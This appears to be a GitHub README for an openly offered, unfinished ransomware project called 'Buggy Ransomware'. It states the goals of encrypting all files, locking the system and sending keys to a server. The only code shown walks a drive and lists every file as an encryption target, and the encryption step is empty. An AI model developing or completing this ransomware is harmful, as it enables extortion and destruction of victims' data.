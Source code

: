 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logor.png" alt="logo">

# Buggy Ransomware

Buggy Ransomware is open source  Crypto-Locker. Buggy Ransomware is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.


## Step 1 (Fetch files)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>

using namespace std;

fstream data_file("data.txt", ios::out);

int main(int argc, char* argv[]) {
	boost::system::error_code dir_error;

	for (boost::filesystem::recursive_directory_iterator end, dir("d:\\", dir_error); dir != end; dir.increment(dir_error)) {
		if (dir_error.value()) {
			cerr << "Error accessing file: " << dir_error.message() << endl;
		}
		else {
			cout << dir->path() << endl;
			data_file << dir->path() << "\n";
		}
	}
	system("pause");
	return 0;
}
```

## Step 2 (Encrypt files)

```
```

# Currently in Development....Happy Hacking:)

## Authors

Ajay Randhawa

## Donate
If you appreciate that, please consider donating to the Developer.

[![Donate](https://cdn.pbrd.co/images/HyQFKkP.png)](https://www.paypal.me/ajayrandhawa) 

